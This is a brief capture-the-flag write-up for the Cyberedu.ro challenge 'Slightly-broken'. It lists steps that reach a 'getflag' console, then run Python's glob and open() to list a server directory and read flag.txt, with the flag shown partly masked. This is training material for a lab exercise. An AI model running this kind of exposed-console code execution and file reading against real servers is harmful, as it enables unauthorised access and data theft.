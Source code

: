 # CyberCTF

Cyberedu.ro

* Slightly-broken
  URL: https://app.cyberedu.ro/challenges/a29f2dc0-9502-11ea-b94c-cf34503f201a/
  1 remove all getflag input variables
  2 run the console on the getflag
  3 import glob
  4 print(glob.glob("/home/ecsc/*")) >> ['/home/ecsc/app.py', '/home/ecsc/flag.txt']
  5 print(open('flag.txt', 'r').read()) >> ECSC{672**************************}
  
